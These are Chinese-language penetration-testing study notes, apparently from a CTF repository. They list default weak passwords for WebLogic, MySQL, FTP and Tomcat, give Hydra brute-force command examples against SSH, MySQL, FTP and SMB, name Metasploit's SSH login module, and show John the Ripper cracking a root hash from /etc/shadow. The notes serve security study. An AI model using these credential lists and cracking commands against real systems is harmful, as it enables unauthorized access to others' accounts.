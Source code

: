 - Weblogic
  - 用户名：weblogic 、 system 、 admin 、 WebLogic
  - 密码：weblogic 、 weblogic123 、 WebLogic
- MySQL
  - 用户名/密码：admin/admin 、 root/root
- FTP通用/默认弱口令
  - 用户名：anonymous 、 user 、 ftp 、 root
  - 密码：anonymous 、 user 、 ftp 、 root
- Tomcat
  - 用户名：admin 、 manager 、 role1 、 tomcat 、both
  - 密码：admin 、 manager 、 role1 、 tomcat 、 both

## 02-Hydra 暴力破解

爆破神器，可以对多种服务的账号和密码进行爆破

```bash
F:\CTF\字典\爆破\hydra>hydra.exe -h
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Options:
  -s PORT(指定非默认端口)   if the service is on a different default port, define it here
  -l LOGIN(登录名) or -L FILE(登录名字典)  login with LOGIN name, or load several logins from FILE
  -p PASS(密码破解)  or -P FILE(密码字典破解)  try password PASS, or load several passwords from FILE
  -C FILE(用户名密码字典,格式：用户名：密码)   colon separated "login:pass" format, instead of -L/-P options
  -M FILE(目标列表文件)   list of servers to attack, one entry per line, ':' to specify port
  -t TASKS(指定爆破时的任务数量默认为16)  run TASKS number of connects in parallel (per host, default: 16)
  
Examples:
  hydra -l user -p root ssh://192.168.0.1
  hydra -l user -P '/root/password.txt' mysql://192.168.0.1
  hydra -L 'userlist.txt' -P '/root/password.txt'  ftp://192.168.0.1
  hydra -C defaults.txt -e n -M '/host.txt' smb(暴力破解SMB)
```

## 03-Metasploit 暴力破解

### 01-SSH暴力破解

使用【 auxiliary/scanner/ ssh ssh_login 】模块，设置暴破的目标地址，选择用户名和密码字典，设置暴破线程等相关参数，run命令进行暴力破解。

### 02-john破解

需要先得到/etc/shadow文件

```bash
root@kali:/etc# john shadow
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
root             (root)
1g 0:00:00:00 DONE 1/3 (2021-05-25 16:52) 9.090g/s 145.4p/s 145.4c/s 145.4C/s root..root4
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
